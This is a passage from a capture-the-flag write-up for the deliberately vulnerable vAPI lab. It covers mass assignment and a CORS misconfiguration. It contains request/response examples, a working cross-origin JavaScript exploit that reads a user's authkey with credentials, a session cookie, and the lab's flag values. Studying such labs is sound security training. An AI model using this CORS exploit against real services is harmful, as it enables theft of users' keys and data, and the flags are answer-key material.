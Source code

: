Now, when we retrieve the account details of this account, we see that the credits has been successfully set at the time of account registration. This is an example of Mass Assignment.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/challenges/vAPI/images/flag6.png)

We also get our flag 6: `flag{api6_afb969db8b6e272694b4}`

---

## API 7 [Security Misconfiguration]
> Hey , its an API right? so we ARE expecting Cross Origin Requests . We just hope it works fine.

Let's first create a new user:

```js
Request => "POST http://{{host}}/vapi/api7/user"
{
    "username":"usser123",
    "password":"pass123"
}
Response =>
{
    "username": "usser123",
    "password": "pass123",
    "id": 2
}
```

We can access the user's authkey by making a GET request like this:
```js
Request => "GET http://{{host}}/vapi/api7/user/key"
Response =>
{
    "id": 2,
    "username": "usser123",
    "password": "pass123",
    "authkey": "1bf6f7e3e2af95b6bef129f9dd81c68078d9437b46ca7a13b292a2a6d1cd154d"
}
```

However, when we send a request with the `Origin` header, we also receive the flag contents.
Let's make a CORS exploit which automatically grabs the flag for us:
```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET','http://192.168.29.147/vapi/api7/user/key');
	xhr.withCredentials = true;
	xhr.send()
	xhr.onreadystatechange = () => { alert(JSON.parse(xhr.response)["flag"]) }
</script>
```

I will host that page on port 9999. Since origin from different ports are considered different, the request originating from this script will be a cross-origin request. 
We don't have any live target user. So we can add our own cookie to the browser.
```
PHPSESSID=b2c9d5058ee32faab05a0de61575533b
```
